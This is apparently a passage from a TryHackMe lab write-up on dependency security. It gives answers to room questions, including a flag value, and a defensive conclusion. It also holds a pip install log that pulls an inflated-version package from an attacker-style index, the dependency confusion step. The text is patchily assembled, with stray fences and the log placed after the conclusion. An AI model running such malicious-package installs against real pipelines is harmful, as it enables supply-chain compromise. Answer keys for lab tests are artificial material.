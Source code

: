 ```
)

```


What is the name of the attack that can be launched to create a race condition between internal and external dependencies with the same name?  

*Dependency Confusion*

What is the flag's value that is stored in the /root/ directory on the docker container where you get remote code execution?

*THM{RCE.Through.Dependency.Confusion}*


###  Conclusion

In this room, we discussed the security controls and misconfigurations commonly found with dependency management. This is by no means an exhaustive list of what should be considered for the security of dependencies. However, to summarise, we should be considering the following:

-   Be aware of the dependencies you use in your applications and systems. Also, be aware that these dependencies may have dependencies, which will grow the list of dependencies you will need to keep tabs on.
-   Make sure to always use the latest versions of dependencies, both internal and external dependencies. More often than not, these updates to dependencies are not to introduce new features but to fix existing issues and bugs.
-   It is not just the dependencies themselves that should be considered for security, but also how we configure and use our dependency managers, especially for internal dependencies.
-   Dependencies and dependency management systems should be included in the attack surface of the application or system we are developing.  
    

Answer the questions below

I understand that security should be taken seriously for dependencies and dependency management in the DevOps pipeline.  

Question Done

```

root@ip-10-10-183-87:~# pip3 install datadbconnect --trusted-host external.pypi-server.loc --index-url http://external.pypi-server.loc:8080 --verbose
Using pip 22.1 from /usr/local/lib/python3.9/dist-packages/pip (python 3.9)
Looking in indexes: http://external.pypi-server.loc:8080
Collecting datadbconnect
  Downloading http://external.pypi-server.loc:8080/packages/datadbconnect-9000.0.2.tar.gz (1.3 kB)
  Running command python setup.py egg_info
  /usr/local/lib/python3.9/dist-packages/setuptools/dist.py:526: UserWarning: Normalizing 'v9000.0.2' to '9000.0.2'
    warnings.warn(tmpl.format(**locals()))
  running egg_info
  creating /tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info
  writing /tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/PKG-INFO
  writing dependency_links to /tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/dependency_links.txt
  writing top-level names to /tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/top_level.txt
  writing manifest file '/tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/SOURCES.txt'
  reading manifest file '/tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/SOURCES.txt'
  writing manifest file '/tmp/pip-pip-egg-info-o1bcv45w/datadbconnect.egg-info/SOURCES.txt'
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: datadbconnect
  Running command python setup.py bdist_wheel
  /usr/local/lib/python3.9/dist-packages/setuptools/dist.py:526: UserWarning: Normalizing 'v9000.0.2' to '9000.0.2'
    warnings.warn(tmpl.format(**locals()))
  running bdist_wheel
```